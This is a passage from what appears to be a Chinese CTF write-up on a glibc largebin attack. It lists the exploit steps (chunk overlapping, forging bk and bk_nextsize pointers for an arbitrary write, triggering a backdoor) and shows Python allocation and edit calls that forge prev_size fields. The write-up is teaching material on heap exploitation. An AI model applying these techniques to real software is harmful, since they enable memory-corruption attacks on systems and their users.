 2. 将处于unsortedbin的可控制的chunk放入largebin中，以便触发largebin attack

3. 伪造largebin的bk和bk_nextsize指针，通过malloc触发漏洞，分配到目标地址，实现任意地址写。

4. 触发后门

###  调试过程

#### 1.Chunk overlapping

​    首先分配7个chunk，chunk1和chunk4是用于放入largebin的大chunk，chunk6防止top chunk合并。Chunk结构如下。

 ```python
 add(0x18)  #0
 add(0x508) #1
 add(0x18)  #2
 
 add(0x18)  #3
 add(0x508) #4
 add(0x18)  #5
 add(0x18)  #6
 ```

![image-20211226162219738](/images/heap/image-20211226162219738.png)

​    构造两个伪造的prev_size，用于绕过malloc检查，保护下一个chunk的prev_size不被修改。如下图所示。

 ```python
 edit(1,'a'*0x4f0+p64(0x500)) #prev_size
 edit(4,'a'*0x4f0+p64(0x500)) #prev_size
 ```
